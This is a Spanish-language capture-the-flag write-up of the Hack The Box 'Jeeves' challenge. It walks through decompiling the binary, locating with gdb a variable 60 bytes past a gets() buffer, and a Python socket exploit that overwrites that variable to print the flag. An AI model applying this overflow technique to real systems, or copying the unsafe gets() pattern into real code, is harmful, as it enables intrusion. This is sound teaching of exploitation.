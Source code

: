 # Jeeves
---------------------------
# Part 1: Probando el programa

Descargamos el binario, le damos permisos de ejecucíon y lo ejecutamos:
```console
└─$ ./jeeves
Hello, good sir!
May I have your name? cucuxii
Hello cucuxii, hope you have a good day!
```

Sin abrir el binario parece que mete el nombre en una variable y luego lo printea. ¿Se puede acontecer un
buffer overflow?

```console
└─$ ./jeeves
Hello, good sir!
May I have your name? AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
zsh: segmentation fault  ./jeeves

└─$ python3 -c "print('A'*74)" | ./jeeves 
Hello, good sir!...
zsh: segmentation fault  ./jeeves
```
Pero aquí no hay que manipular el RIP sino sobreescribir una varaible...

------------------------
# Part 2: Leyendo su código

Si abrimos el programa con el ghidra y cambiando los nombres de varaibles:
```c
undefined8 main(void) {
  char nombre [44];
  int archivo;
  void *contenido;
  int cambiame;
  
  cambiame = L'\xdeadc0d3';
  printf("Hello, good sir!\nMay I have your name? ");
  gets(nombre);
  printf("Hello %s, hope you have a good day!\n",nombre);
  if (cambiame == 0x1337bab3) {
    contenido = malloc(0x100);
    archivo = open("flag.txt",0);
    read(archivo,contenido,0x100);
    printf("Pleased to make your acquaintance. Here\'s a small gift: %s\n",contenido);
    close(archivo);
  } return 0;
}
```

Es decir si cabmiame es "0x1337bab3" nos printea la flag, pero nos lo pone como xdeadc0d3 y solo podemos manipular
"nombre"... Se cambiame está despues de nombre podriamos hacer que nombre fuera tan largo que sobrepasara su 
buffer de 44 bytes para sobreescribir "cambiame"

---------------------------------
# Part 3: Destripandolo con gdb

```console
└─$ gdb ./jeeves
gef➤  disas main:
	(...)
	0x00005555555551f5 <+12>:	mov    DWORD PTR [rbp-0x4],0xdeadc0d3
  	(...)
	0x0000555555555236 <+77>:   cmp    DWORD PTR [rbp-0x4],0x1337bab3
```

Si hacemos un breakpoint cuando compara:
```
gef➤  b *0x0000555555555236
gef➤  r
May I have your name? AAAA
gef➤  x/40x $rsp
0x7fffffffdf40:	0x41414141	0x00000000	0x00000000	0x00000000
0x7fffffffdf50:	0x00000000	0x00000000	0x00000000	0x00000000
0x7fffffffdf60:	0x00000000	0x00000000	0x00000000	0x00000000
0x7fffffffdf70:	0x00000000	0x00000000	0x00000000	0xdeadc0d3

gef➤  x/a $rbp-0x4
0x7fffffffdf7c:	0x1deadc0d3 # Encontramos el valor que nos decian

gef➤  p 0x7fffffffdf7c - 0x7fffffffdf40
$4 = 0x3c (60)
```
La variable  a 60 bytes del rsp (de donde empezamos a escribir)

-----------------------------------
# Part 4: Desarrollando un exploit

Tenemos que mandar 60 "A"s + "0x1337bab3" (\xb3\xba\x37\x13 en bytes little endian)
```python
import socket

con = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
con.connect(("165.227.231.233", 32634))
payload = b"A"*60 + b"\xb3\xba\x37\x13\n" 
con.send(payload)
print(con.recv(1024))
```
Tras la data hay un "\n" que se traduce como Enter (que es lo que haces en el programa cuando acabas de poner
el nombre)

```console
└─$ python3 exploit.py 
b"Hello, good sir!\nMay I have your name? Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xb3\xba7\x13, hope you have a good day!\nPleased to make your acquaintance. Here's a small gift: HTB{w3lc0me_t0_lAnd_0f_pwn_&_pa1n!}\n\n"
```
------------------------------------------

# Extra: leyendo insutrcciones en codigo ensablador

Podriamos abrir el codigo en gdb pero prefiero radare2
```
int main (int argc, char **argv, char **envp);
	var char *s @ rbp-0x40;   # Donde mete el nombre
	var void *fildes @ rbp-0x14; # ???
	var char *buf @ rbp-0x10; #    ???
	var uint32_t var_4h @ rbp-0x4  ???

	# Crea la pila ->  [push rbp, mov rbp, rsp, sub rsp, 0x40]
    # mov dword [var_4h], 0xdeadc0d3  ## ??

	# Mete en RDI esta frase para pasarsela a printf()
	[lea rdi, str.Hello__good_sir__nMay_I_have_your_name__ mov eax, 0, call sym.imp.print]
	
	# Le pasa a gets un array de caracteres vacio (varaible nombre) mediante RDI
	[lea rax, [s], mov rdi, rax(char *s), mov eax, 0, call sym.imp.gets # char *gets(char *s)]
	
	# Vuelve a meter en RDI una cadena para printear
    [lea rax,[s],mov rsi,rax, lea rdi, str.Hello__s__hope_you_have_a_good_day__n, mov eax, 0,call sym.imp.printf]
	
	# Printea lo que estás escribiendo
	[mov eax, 0  call sym.imp.printf]

# Compara lo que hay en la varaible 4h con "0x1337bab3"
	# cmp dword [var_4h], 0x1337bab3
	# Si var_4h no es igual salta a 0x12a8 (mov eax, 0, ret, leave)
	# Si var_4h si es igual a esa cadena:
		[mov edi, 0x100, call sym.imp.malloc]  # void *malloc(size_t size)
		[mov qword [buf], rax, mov esi, 0, lea rdi, str.flag.txt]  # const char *path = "flag.txt"
		[mov eax, 0, call sym.imp.open  # 						   # open(path)
		[mov dword [fildes], eax, mov rcx, qword [buf], mov eax, dword [fildes]
		[mov edx, 0x100 (size_t nbyte), mov rsi, rcx (*buf), mov edi, eax (fildes), mov eax, 0, call sym.imp.read
		
		# contenido = read(fildes, void *buf, size_t nbyte)
		[mov rax, qword [buf], mov rsi, rax]
		[ea rdi, str.Pleased_to_make_your_acquaintance._Heres_a_small_gift: mov eax, 0, call sym.imp.printf]
		
		# printf(Pleased_to_make_your_acquaintance._Heres_a_small_gift -> contenido)
		[mov eax, 0, call sym.imp.printf]   (int printf(const char *format))
		[mov eax, dword [fildes], mov edi, eax, mov eax, 0, call sym.imp.close] # int close(int fildes)
```

Vemos claramente que en 64 bytes todos los argumentos de una funcion los pasa al registro  RDI (y si hay mas 
a RSI,RDX...) y luego llama a la funcion que lee de dicho registro/s. Esto se llama "calling conventions" y
es la manera que tienen los programas de 64 bits de operar

